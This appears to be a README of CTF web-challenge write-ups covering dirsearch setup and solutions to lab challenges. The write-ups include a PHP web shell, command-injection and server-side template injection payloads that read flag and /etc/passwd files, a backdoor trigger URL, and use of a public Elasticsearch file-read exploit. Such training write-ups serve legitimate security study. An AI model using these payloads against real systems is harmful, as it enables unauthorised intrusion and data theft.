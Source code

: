 # Installing Dirsearch
The first thing we need to do is install dirsearch from GitHub. 

The easiest way to do this is with git. So if it's not already installed on your system, do so with the following command in the terminal:

$sudo apt-get update
$sudo apt-get install git
![image](https://github.com/Mariam-kabu/cybersec-labs/assets/82336496/fa7bf001-3757-4cc7-986f-9898f5a56c3c)

Now we can use the git clone command to clone the directory where the tool is located:

$git clone https://github.com/maurosoria/dirsearch
$cd dirsearch/
$python3 dirsearch.py      #run dirsearch
![image](https://github.com/Mariam-kabu/cybersec-labs/assets/82336496/5ea41a82-ea53-4e6e-90db-d6db23a75574)
git clone https://github.com/maurosoria/dirsearch.git --depth 1

The last way to run dirsearch, which is my preferred method, is to create a symbolic link in the /bin directory. This will allow us to run the tool from anywhere, as opposed to only in the directory cloned from GitHub.
$cd /bin/

create a symbolic link to the tool using the ln -s command:
$sudo ln -s ~/dirsearch/dirsearch.py dirsearch

Here we are naming it dirsearch, so when we run dirsearch now in the terminal, the tool will be able to run from any directory. 
![image](https://github.com/Mariam-kabu/cybersec-labs/assets/82336496/3affa48f-5008-429b-9ea1-0910fcfd2caf)



# cybersec-labs
# bolt
Let's try: View Page Source, pay attention to p This website is... /p, add /bolt to URL and guess the user and pass (admin, password).

Once you are in you need to go to file management to see if you can upload some malicious files. Let’s try to create and upload a vulnerable rce.html file

click file and start editing < ?php echo system($_GET['cmd']);? >
Go to options and rename the rce.html file to rce.php

Click on rce.php
Add cmd=id
cmd=ls-l
cat /flag.txt
CTF{b12e3b34c581d4f3c66c00cc7f8dabec8838dab0acf26c2cfbe2f7d291326f75}
# elastic
![image](https://github.com/Mariam-kabu/cybersec-labs/assets/82336496/219165d6-3a23-41a4-8efa-ff035e7b89b1)
Hints:
Hint 1:  Elasticsearch < 1.6.1 Arbitrary file read CVE (version)

The main web page exposure sensitive information about the version of Elasticsearch
application. 

The main of this scenario is to identify the vulnerability like in the real scenario.

Try to find an exploit

Searchable archive from The Exploit Database. https://www.exploit-db.com/

Search for remote Oracle exploits for Windows:
Installation:

$sudo apt install exploited

$sudo apt install libxml2-utils

Dependencies: libxml2-utils

$searchsploit elasticsearch

The vulnerability present in the current scenario offers more details about 
CVE-2015-5531- Arbitrary file Vulnerability. 

The exploit can be found here:

https://github.com/nixawk/labs/blob/master/CVE-2015-5531/exploit.py

$ python3 exploit.py URL /etc/passwd 
![image](https://github.com/Mariam-kabu/cybersec-labs/assets/82336496/a2ea58dc-fabc-4f50-a8ee-0ba19366d4c8)
CTF{265b92ed0091f139fdcd438196426f205fed9b14bce765bafd8344b1d96183e5}
# php unit
A website is provided as a reference to my unit is feeling a little off. So first we can try to understand php unit. For example, we can use the automatic tool Dirsearch, which brute-force searches for vulnerabilities in directories.

$ dirsearch -u URL

From these addresses we can select the ones that are interesting to us like /composer.json, Here we can find versions of php-unit and /eval-stding.php
Vulnerable path. Let’s check: /composer.json where we can understand that our php uni is vulnerable (CVE-2017-9841).

Now exploit the vulnerable path using Burpsuite: < ?php system('cat /flag.txt')? >
CTF{8c7795c5332da1491741a61fe780006a619273444bfe54aff555e28f83e3b123}

# nodiff-backdoor
After performing some recon using *dirsearch* on the targeted web application, we can find a *backup.zip* archive.

$ dirsearch -u URL

Download the backup file from the following URL: http://34.107.45.207:30148//backup.zip 
(take note that the IP address can change based on the functionality of the CyberEDU platform.) 

In this way, we obtain the source code of the application.

$ wget http://34.107.45.207:30148//backup.zip 

Copy backup.zip to the new folder and unzip it. 

Now is the time to find some backdoor. Because applications use PHP code we try to search for vulnerable function in PHP:
https://gist.github.com/mccabe615/b0907514d34b2de088c4996933ea1720

We can try to search for all the vulnerable functions. After few tries observe we got the vulnerable function (shell_exec()) in the next path: “wp-content/themes/twentytwentytwo/functions.php”

$ grep –r “shell_exec(“

The next step is to execute the backdoor to access the server based on what we have. 
If we have the parameter welldone=knockknock, then execute parameter shazam=<injection>
![image](https://github.com/Mariam-kabu/cybersec-labs/assets/82336496/5ed643c1-2038-4a23-ba9f-b3c823729699)
![image](https://github.com/Mariam-kabu/cybersec-labs/assets/82336496/5fbc856c-6241-4c2a-a001-2a9c9174004b)
Now let’s get the flag in the source of the page:
http://34.107.45.207:30148/?welldone=knockknock&shazam=id

http://34.107.45.207:30148/?welldone=knockknock&shazam=cat flag.php
CTF{87702788126237df9c4a915fea9441345dc6b3a0272b214b2c31e50a8f89c4b1}

# schematics
After a few attempts of web application reconnaissance using dirsearch -u , we obtain a register endpoint.
choose register.php because it is successful link.
register

When we put “%” into the field, the list of all the products is showed. At this moment, we can conclude that the page with search functionalities implemented is vulnerable to SQLi injection. To proceed further with the attack, copy the cookie from the POST request obtained with Burp and use SQLmap on it. we use it for the command to have valid session
![image](https://github.com/Mariam-kabu/cybersec-labs/assets/82336496/fba3f32b-93cc-47b5-a611-bdc69f05c6d9)
CTF{1nformat1on_sch3ma_c4n_cont41n_us3ful_d4t4}


# authorization
try dirsearch and chek urls

for /auth We are not allowed to use GET requests because we got some error, 
so let’s try to use POST  requests.

# sweet and sour
Usually, when something similar is noticed, it is recommended to look in the header section of the web application. 
From header we can obtain, that it is python server and set-cookie is shown right there
curl -i URL

Once we try to decode the cookie using base64, we can see, that some words appeared as the result
echo -n "cookie" | base64 -d 

After decoding the cookie, we obtain the message "Try harder" and some junk data. Based on what information we have gathered until now ( Python server, cookies in base64 format + some junk ) we can conclude that this is a pickle server. At this moment we can send some pickle payloads to the server which will lead to arbitrary file read vulnerability. 

*run python payload change only URl*
python PayLoad.py

# online-encryption
Search for traffic using http filter. 10476... Follow the HTTP stream with the shortcut Ctrl+Alt+Shift+H

Eventually we can spot suspicious traffic to www.txtwizard.net (plain text). filter for 10.0.0...

Now we can copy the messages and filter them with regexes in a text edition with an engine
implemented to get only the plainText argument values.
An example regex is:
plainText=(.*?)&key

https://base64decode.org/

After we convert from base64, we can observe that the new text seems to be obfuscated with: rot13 RPFP{qq545sos12sq608qnn8p201s50s95p8520orp9s744n3573o1qp0op53pr019726}

# shark
Server Side Template Injection
{{7*7}}

curl -I URL

burp suit: 
name=<%
import os
x=os.popen('cat flag').read()
%>${x}

